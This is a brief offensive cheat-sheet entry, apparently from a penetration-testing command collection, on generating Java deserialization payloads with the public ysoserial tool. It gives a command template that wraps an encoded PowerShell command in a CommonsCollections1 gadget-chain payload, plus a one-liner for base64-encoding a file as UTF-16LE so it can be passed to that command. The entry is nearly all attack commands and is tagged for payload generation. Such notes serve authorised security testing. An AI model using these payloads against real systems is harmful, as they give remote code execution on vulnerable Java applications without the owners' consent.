 # ysoserial

% java, unserialize 

## ysoserial java - generate payload
#plateform/linux #target/local #cat/ATTACK/GENERATE_PAYLOAD 

https://github.com/frohoff/ysoserial

```bash
java -jar ysoserial.jar <lib_payload> 'powershell.exe -EncodedCommand <base64_encoded_command>' > <output_file>
```

## convert file to base64 one line
#plateform/linux #target/local #cat/UTILS 

```bash
iconv -f ASCII -t UTF-16LE <file_to_convert> | base64 | tr -d "\n"
```

= lib_payload : CommonsCollections1
